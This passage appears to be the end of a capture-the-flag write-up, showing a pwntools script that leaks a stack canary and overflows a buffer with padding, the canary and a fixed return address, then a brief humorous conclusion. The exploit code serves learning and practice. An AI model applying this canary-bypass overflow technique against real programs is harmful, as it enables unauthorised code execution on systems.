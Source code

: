 ```
read = p.readuntil(': ')                        # Reading all the input I should have read before
read2 = p.readuntil(': ')

canary = p.recvuntil('\n')[:4]                  # Extracting my canary

returnPadding = b'A' * 8
ret = p32(0x080486c6)

p.sendline('a')
p.sendline('112')								# 96 + 4 + 8 + 4 bytes
p.sendline(padding + canary + returnPadding + ret)

p.sendline('d')                                 # Quitting the program.

p.interactive()
```

## Conclusion

---

Bof hard.  
Very leet indeed.  
The fact that I enjoyed it anyway makes me worried about my future.
